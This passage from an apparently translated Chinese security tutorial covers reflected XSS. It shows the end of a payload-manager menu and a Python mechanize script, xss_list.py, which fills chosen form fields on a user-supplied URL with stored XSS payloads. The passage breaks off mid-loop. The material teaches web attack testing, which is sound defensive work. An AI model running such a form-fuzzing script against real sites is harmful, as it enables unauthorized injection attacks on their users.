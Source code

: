 ```
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "\t Wrong Input"
```

我希望您熟悉前面的代码。现在，看前面代码的输出：

![Nonpersistent or reflected XSS](graphics/8583OT_07_11.jpg)

xss_data_handler.py 的输出

前面的屏幕截图显示了`mohit.xss`文件的内容；`xss.py`文件仅限于两个字段。然而，现在让我们看看不限于两个字段的代码。

`xss_list.py`文件如下：

```
import mechanize
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
```
